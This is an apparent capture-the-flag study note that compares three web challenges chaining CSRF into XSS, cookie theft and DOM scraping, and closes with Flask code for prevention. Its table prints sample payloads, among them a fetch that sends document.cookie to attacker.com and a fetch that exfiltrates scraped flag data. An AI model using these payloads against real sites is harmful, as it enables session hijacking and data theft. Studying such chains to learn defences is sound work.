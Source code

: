 ### **Comparison of CSRF Challenges 3-5**

| Aspect          | CSRF3 (Basic XSS) | CSRF4 (Cookie Theft) | CSRF5 (HttpOnly Bypass) |
|----------------|------------------|---------------------|------------------------|
| **Server Vulnerability** | Reflected XSS in `/ephemeral` endpoint (no output encoding) | Same as CSRF3 + Session cookies accessible via JS | HttpOnly cookies but unprotected sensitive data in DOM |
| **Exploited Via** | CSRF → XSS (`alert()`) | CSRF → XSS → Cookie Exfiltration | CSRF → XSS → DOM Scraping → Data Exfiltration |
| **Key Challenge** | Trigger XSS in target origin | Steal cookies despite SOP | Extract data without cookie access |
| **Solution Approach** | Basic reflected XSS payload | `document.cookie` + exfil server | `fetch()` + DOM parsing + exfil |
| **Payload Example** | `<svg onload=alert(1)>` | `fetch(attacker.com?cookie=${document.cookie})` | `fetch('/').then(r=>r.text()).then(d=>exfil(d.match(/flag{.*}/)))` |
| **Defense Bypassed** | None (basic challenge) | Same-Origin Policy | HttpOnly cookies |
| **Thinking Analogy** | "Break window to enter" | "Copy keys through window" | "Read documents through window without entering" |

---

### **Evolution of Vulnerabilities & Solutions**

1. **CSRF3 (Basic XSS)**
   - **Vuln**: Naive reflection of user input
   - **Exploit**: Direct script injection
   - **Solution Mindset**: *Find reflection point → Inject code*

2. **CSRF4 (Cookie Theft)**
   - **Vuln**: Same as CSRF3 + exposed cookies
   - **Exploit**: Chain to steal authentication tokens
   - **Solution Mindset**: *Leverage XSS to escalate to session theft*

3. **CSRF5 (HttpOnly Bypass)**
   - **Vuln**: Protected cookies but data in DOM
   - **Exploit**: Same-origin content scraping
   - **Solution Mindset**: *Pivot from cookie theft to direct data extraction*

---

### **Thinking Process Analogy**

| Challenge | Physical World Analogy | Hacker Mindset |
|-----------|-----------------------|---------------|
| **CSRF3** | Seeing an open window | "I can shout through this window to trigger action" |
| **CSRF4** | Window + keys on sill | "I can use a hook to grab the keys through the window" |
| **CSRF5** | Locked window + visible documents | "I'll use binoculars to read the documents inside" |

---

### **Key Progression Insights**

1. **Vulnerability Depth**:
   - CSRF3: Simple reflection
   - CSRF4: Stateful impact (cookies)
   - CSRF5: Need for DOM awareness

2. **Exploit Sophistication**:
   ```mermaid
   graph LR
   A[CSRF3: Simple Alert] --> B[CSRF4: Data Exfiltration]
   B --> C[CSRF5: DOM Analysis]
   ```

3. **Defense Evasion**:
   - Each level requires bypassing one additional security control:
   - Level 3: No filters → Level 4: SOP → Level 5: HttpOnly

---

### **Unified Prevention Approach**

For all three challenges, these server-side fixes would mitigate the issues:

```python
# 1. Input Sanitization
@app.route('/ephemeral')
def ephemeral():
    msg = escape(request.args.get('msg', ''))  # HTML escaping
    return f"<div>{msg}</div>"

# 2. Security Headers
@app.after_request
def add_headers(resp):
    resp.headers['Content-Security-Policy'] = "default-src 'self'"
    resp.headers['X-XSS-Protection'] = "1; mode=block"
    return resp

# 3. Cookie Hardening
app.config.update(
    SESSION_COOKIE_HTTPONLY=True,
    SESSION_COOKIE_SAMESITE='Lax'
)
```

This shows how foundational security practices could have prevented all three exploit chains.